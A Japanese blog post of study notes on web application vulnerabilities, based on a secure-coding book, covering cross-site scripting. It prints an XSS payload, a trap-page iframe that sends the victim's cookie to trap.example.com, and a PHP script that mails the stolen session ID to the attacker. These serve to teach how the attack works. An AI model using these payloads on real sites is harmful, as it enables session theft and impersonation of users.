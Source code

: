 title: Webアプリケーションの脆弱性
date: 2017-07-12 00:00
tags: Security

---

最近をこれを読んだのでいくつか有名な脆弱性をメモ。

<div class="amazlet-box" style="margin-bottom:0px;"><div class="amazlet-image" style="float:left;margin:0px 12px 1px 0px;"><a href="http://www.amazon.co.jp/exec/obidos/ASIN/4797361190/fujimisakar03-22/ref=nosim/" name="amazletlink" target="_blank"><img src="https://images-fe.ssl-images-amazon.com/images/I/51wWshX%2BoIL._SL160_.jpg" alt="体系的に学ぶ 安全なWebアプリケーションの作り方 脆弱性が生まれる原理と対策の実践" style="border: none;" /></a></div><div class="amazlet-info" style="line-height:120%; margin-bottom: 10px"><div class="amazlet-name" style="margin-bottom:10px;line-height:120%"><a href="http://www.amazon.co.jp/exec/obidos/ASIN/4797361190/fujimisakar03-22/ref=nosim/" name="amazletlink" target="_blank">体系的に学ぶ 安全なWebアプリケーションの作り方 脆弱性が生まれる原理と対策の実践</a><div class="amazlet-detail" style="margin-top:20px;">徳丸 浩 <br />SBクリエイティブ <br />売り上げランキング: 9,747<br /></div><div class="amazlet-sub-info" style="float: left;"><div class="amazlet-link" style="margin-top: 5px"><a href="http://www.amazon.co.jp/exec/obidos/ASIN/4797361190/fujimisakar03-22/ref=nosim/" name="amazletlink" target="_blank">Amazon.co.jpで詳細を見る</a></div></div></div><div class="amazlet-footer" style="clear: left"></div></div>


## XSS攻撃(クロスサイト・スクリプティング)

他者のサイトへ悪意のあるscriptを流しこむ攻撃。
Webアプリケーションには外部から入力などに応じて表示が変化する箇所があり
この部分の実装に問題があるとXSSの脆弱性が生じる。

### [影響]
- 利用者のブラウザ上で攻撃者の用意したスクリプトの実行によりクッキー値を盗まれ、利用者が成りすましの被害にあう
- 同じくブラウザ上でスクリプトを実行させられ、サイト利用者の権限でWebアプリケーションの機能を悪用される
- Webサイト上に偽の入力フォームが表示され、フィッシングにより利用者が個人情報を盗まれる

### [攻撃手法]

#### クッキー値の盗み出し
サイト利用者のブラウザ上で、攻撃者の用意したスクリプトの実行により
クッキー値を盗まれ、利用者が成りすましの被害にあう

代表的なとこでは クエリー or フォームのパラメータにスクリプトを挿入して実行する
```html
keyword=<script>alert(document.cookie)</script>
```

ただ上記では、攻撃者本人のクッキーを表示するだけなので意味がなく
脆弱なサイトの正規利用者を罠サイトに誘導します

```html
<html>
  <body>
    激安商品情報
    <iframe width=320 height=100
      src="http://example.jp/0001.php?keyword=<script>window.location='http://trap.example.com/0001.php?sid='%2Bdocument.cookie;</script>"
    </iframe>
  </body>
</html>
```

```php
<?php
  $sid = $_GET['sid'];
  mb_send_mail('wasbook@example.jp', '攻撃成功', 'セッションID:' . $sid, 'From: hoge@trap.example.com')
?>
  <body>攻撃成功</br>
  <?php echo $sid; ?>
  </body>
```
